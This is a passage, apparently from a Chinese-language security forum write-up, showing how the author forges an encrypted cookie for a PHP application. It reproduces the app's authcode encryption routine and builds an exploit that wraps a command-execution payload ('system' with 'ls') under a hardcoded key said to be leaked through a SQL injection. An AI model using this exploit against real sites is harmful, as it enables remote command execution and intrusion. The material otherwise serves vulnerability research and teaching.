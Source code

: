 payload已经构造好了，接下来就是将 payload 进行加密。我们看看哪里用到`authcode`方法进行加密。全局搜索后，发现登录的时候调用过这个方法进行加密

![image-20220202194052751.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-bc34b222c15ea3521aefbb2d4b631f61b8ebb952.png)

所以我们可以构造 exp 如下，exp 中加密需要用到的 key 可以通过上面的前台 SQL 注入读取到

```php
<?php
function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0)
{
    $ckey_length = 4;
    $key = md5($key);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length) : substr(md5(microtime()), -$ckey_length)) : '';
    $cryptkey = $keya . md5($keya . $keyc);
    $key_length = strlen($cryptkey);
    $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('0d', $expiry ? $expiry + time() : 0) . substr(md5($string . $keyb), 0, 16) . $string;
    $string_length = strlen($string);
    $result = '';
    $box = range(0, 255);
    $rndkey = array();
    for ($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }
    for ($j = $i = 0; $i < 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }
    for ($a = $j = $i = 0; $i < $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }
    if ($operation == 'DECODE') {
        if ((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26) . $keyb), 0, 16)) {
            return substr($result, 26);
        } else {
            return '';
        }
    } else {
        return $keyc . str_replace('=', '', base64_encode($result));
    }
}

setcookie('test', authcode('{"name":"system","param":["ls","123456"]}', '', 'zMY0khLKVILeoJMirXxTo4thJuy4T5UnMiIbMTuw'), time() + 3600, '/');

?>
```

